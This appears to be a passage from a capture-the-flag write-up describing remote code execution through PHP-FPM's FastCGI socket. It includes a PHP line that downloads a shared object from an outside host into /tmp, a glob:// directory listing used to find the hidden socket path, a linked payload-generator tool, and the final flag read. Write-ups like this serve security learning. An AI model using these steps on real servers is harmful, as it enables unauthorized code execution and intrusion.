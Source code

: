 ```php
file_put_contents("/tmp/bad.so", file_get_contents("http://kaibro.tw/bad.so"));
```

- Before building the fastcgi payload, we should find out its UNIX Socket path (if it use tcp, we need to find the port)

```php
$file_list = array();
$it = new DirectoryIterator("glob:///v??/run/php/*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
$it = new DirectoryIterator("glob:///v??/run/php/.*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
sort($file_list);  
foreach($file_list as $f){  
        echo "{$f}<br/>";
}
```

=> `/var/run/php/U_wi11_nev3r_kn0w.sock`

- Then, starting to create FastCGI payload to overwrite settings. Here is my tool to generate payload: [Tool](https://github.com/w181496/FuckFastcgi/)
    - change the config, then run it


![](https://i.imgur.com/7yJKy5V.png)


- RCE Get!
- `/readflag` => `flag{PHP-FPM is awesome and I think the best pratice is chroot your PHP}`



